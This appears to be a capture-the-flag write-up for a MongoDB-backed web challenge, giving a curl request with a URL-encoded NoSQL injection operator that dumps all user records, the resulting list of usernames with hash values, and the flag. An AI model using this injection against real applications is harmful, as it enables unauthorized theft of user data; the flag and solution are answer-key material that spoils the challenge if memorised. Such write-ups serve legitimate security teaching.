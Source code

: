 Solution
========

To solve the problem you need to find out that it is vulnerable to NoSQL injection, since the application is using a MongoDB. To solve the problem you need to retrieve all data from the users in the database.

The NoSQL injection payload is 
```
curl 'http://<challenge_url>/user/%7B%22$gt%22:%20%22%22%7D' -H 'Host: <challenge host>'

```

The list:

```
sgaivota_7148e4934addcddf2cbfe5460f80dee8b87762bfbb45f38c79a2385f398b6052,8e6b3890f99e5153fc786f4a32d3b3c00bc5d5c1432ff9ffcb22d3ecc5e1f687
bruce_0f0c13b699793c02382b2767f9de3234a0fd4a9cd6853757d6a2a86a2b46e4a3,56c7fd904eb97e9834ca476a5636335ab1a9ae6b48ffc433e3a1682679c37d58
chuck_3079ed4ab72f4c4eb3702eab8ac463af21e54ce49cce5bbf9909f3a71a58e6c0,75d8c434c2537748f01aa4e86e7c379ac71e261bbb890666750fdb7a8184f4c0
```


Flag
----

`1195254`

